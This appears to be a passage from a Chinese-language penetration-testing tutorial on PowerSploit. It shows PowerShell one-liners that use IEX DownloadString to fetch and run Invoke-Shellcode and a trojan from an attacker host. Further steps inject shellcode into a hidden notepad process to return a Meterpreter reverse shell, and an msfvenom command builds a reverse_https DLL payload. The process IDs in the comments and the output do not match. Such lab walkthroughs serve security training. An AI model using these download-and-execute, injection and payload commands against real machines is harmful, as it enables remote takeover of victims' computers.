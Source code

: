 在目标机Powershell下输入以下命令下载该脚本

```powershell
#下载脚本
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/powersploit/CodeExecution/Invo
-Shellcode.ps1")
#下载木马
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/test")
#执行
PS C:\Users\baji> Invoke-Shellcode -Shellcode ($buf) -Force
```

最后回到kali发现已经返回目标机shell

1.2 指定进程注入shellcode反弹Meterpreter Shell

```powershell
#下载脚本
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/powersploit/CodeExecution/Invoke
-Shellcode.ps1")
#下载木马
PS C:\Users\baji> IEX (New-Object Net.WebClient).DownloadString("http://192.168.160.129/test")
#查看进程
PS C:\Users\baji> ps

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
    139      14     3132       6944    62     0.11   2512 1
    831      43    34828     116580   668     6.24    984 chrome
    .......
    162      14    19004      21700   339     0.08   3732 chrome
     59       8     4500      11448    78     0.05    964 conhost
#创建一个新的进程，并把它设置为隐藏的查看进程，可以看到多了一个id为4735，名为notepad的进程
PS C:\Users\baji> start-process C:\Windows\System32\notepad.exe -WindowStyle Hidden
#查看进程，可以看到多了一个id为4735，名为notepad的进程
PS C:\Users\baji> get-process notepad
Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
     56       7     1420       5352    75     0.02   4172 notepad
#进程注入
PS C:\Users\baji> Invoke-Shellcode -ProcessID 4735 -Shellcode ($buf) -Force
```

反弹成功

#### 2、Invoke-DllInjection

DLL注入的脚本

首先在和上面一样在MSF里配置好监听，这里就不再赘述

然后使用以下命令在kali中生成一个dll的反弹木马

```zsh
┌──(root💀kali)-[~/桌面]
└─# msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.160.129 LPORT=4444 -f dll -o /var/www/html/test.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 507 bytes
Final size of dll file: 8704 bytes
Saved as: /var/www/html/test.dll
```
